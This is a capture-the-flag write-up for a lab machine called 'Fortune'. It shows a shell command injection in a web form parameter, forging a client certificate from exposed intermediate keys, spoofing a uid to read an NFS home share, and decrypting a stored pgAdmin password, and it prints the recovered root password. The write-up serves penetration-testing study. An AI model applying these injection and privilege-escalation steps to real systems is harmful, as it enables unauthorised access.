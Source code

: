 # FORTUNE

10.10.10.127

# USER

Website sends parameter to db and allows appending of commands

```
db=fortunes ; whoami
```

The binary seems to be run from the webpage
```
/usr/games/fortune
```

We find a directory of certificates using the intermediate certificates we can make a pk12 cert that user authenticates us for the ```https``` endpoint
```
openssl pkcs12 -export -inkey intermediate.key.pem -in intermediate.cert.pem -out intermediate.p12
```

This provides us with a page to create ssh certs

Page greets us with:

```
You will need to use the local authpf service to obtain elevated network access. 
If you do not already have the appropriate SSH key pair, then you will need to 
generate one and configure your local system appropriately to proceed.
```

This is a service that seems to allow traffic out a new nmap scan gives us:

```
$ ssh nfsuser@10.10.10.127

Nmap scan report for 10.10.10.127
Host is up (0.094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp   open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          662/udp  mountd
|_  100005  1,3          939/tcp  mountd
443/tcp  open  ssl/https?
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nfs        2-3 (RPC #100003)
8081/tcp open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: pgadmin4

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.86 seconds
```

/etc/exports just has "home" in it?
it allows us to mount the home directory, this gives us write access in the nfsuser directory

```
sudo mount -t nfs 10.10.10.127:home /mnt
```

Note: adding a user called ```Charlie``` with the same ```uid``` allows us to view the contents of the NFS share

Can get the flag from Charlie's directory. 
By adding the key we received earlier we can get onto ssh with Charlie


# ROOT

/usr/local/pgadmin4
/usr/local/pgadmin4/.virtualenvs/pgadmin4
/var/appsrv/pgadmin4

Need to look at how the passwords are encrypted

```
from pgadmin.utils.crypto import encrypt, decrypt, pqencryptpassword
```

The password we need to decrypt:

```
utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
```

The password is encrypted using AES with the password hash as the key

Using the python decrypt file we get:

```
R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!
```

This lets us ssh as root and obtain the flag